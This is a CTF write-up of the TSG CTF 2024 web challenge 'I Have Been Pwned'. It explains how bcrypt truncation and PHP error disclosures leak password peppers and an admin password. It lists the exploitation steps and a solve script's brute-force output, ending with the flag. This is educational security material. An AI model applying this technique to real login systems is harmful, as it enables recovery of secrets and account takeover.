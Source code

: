 ```php
<?php
[...]
$admin_password = "__REDACTED_____";
assert(strlen($admin_password) === 15);
```

## Exploitation

Armed with the above information, we can generate a valid admin password hash with the following steps:
1. Get a Bcrypt password hash without `$pepper2` via Bcrypt truncation
2. Leak the first 15 characters of `$pepper1` via PHP error
3. Brute force the last remaining character of `$pepper1`, the brute forcing hash is generated in step 1
4. Brute force `$pepper2` character by character via Bcrypt truncation
5. Leak `$admin_password` via PHP error
6. Generate a valid admin password hash with input `<pepper1>admin<admin_password><pepper2>` and get the flag

To automate the above steps, I've written the following PHP solve script:

<details><summary markdown="span"><strong>solve.php</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/I-Have-Been-Pwned)-[2024.12.16|12:43:16(HKT)]
└> php solve.php 
[+] Leaked the first 15 characters of pepper1: PmVG7xe9ECBSgLU
[*] Brute forcing pepper1 last character...
[*] Trying password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[+] Correct password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[+] Correct pepper1: PmVG7xe9ECBSgLUA
[*] Brute forcing pepper2 byte by byte...
[*] Trying password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8
[+] Correct password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8
[*] Trying password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8o
[+] Correct password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8o
[...]
[*] Trying password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8oC7mIiDFw4hQv2e
[+] Correct password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8oC7mIiDFw4hQv2e
[+] Leaked pepper2: 8oC7mIiDFw4hQv2e
[+] Leaked admin password: KeTzkrRuESlhd1V
[*] Try to get the flag... Full password: PmVG7xe9ECBSgLUAadminKeTzkrRuESlhd1V8oC7mIiDFw4hQv2e
[*] Admin hash: $2y$10$1eMjR5I6TBPHp4fkRNi4jetXFg2bPrby4cdft5U.8e0tXJdeM3xMa
[+] Flag: TSGCTF{Pepper. The ultimate layer of security for your meals.}
```

- **Flag: `TSGCTF{Pepper. The ultimate layer of security for your meals.}`**

## Conclusion

What we've learned:

1. Information disclosure via PHP errors and Bcrypt truncation
